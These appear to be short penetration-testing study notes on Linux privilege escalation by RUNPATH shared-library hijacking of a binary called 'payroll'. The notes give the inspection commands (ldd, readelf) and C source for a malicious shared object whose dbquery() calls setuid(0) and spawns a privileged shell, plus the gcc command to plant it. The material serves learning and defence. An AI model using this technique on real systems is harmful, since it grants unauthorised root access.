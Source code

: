 **See libraries
```shell-session
ldd payroll
```

**RUNPATH configuration allows libraries in this folder to be given preference over other folders
```shell-session
readelf -d payroll | grep PATH
```
- Allows loading of libraries from the /development folder
- Place a malicious library in /development

Next, find a function called by the binary
```shell-session
ldd payroll
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
./payroll
```

**Create malicious shared object
```shell-session
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

**Compile
```shell-session
gcc src.c -fPIC -shared -o /development/libshared.so
./payroll
```
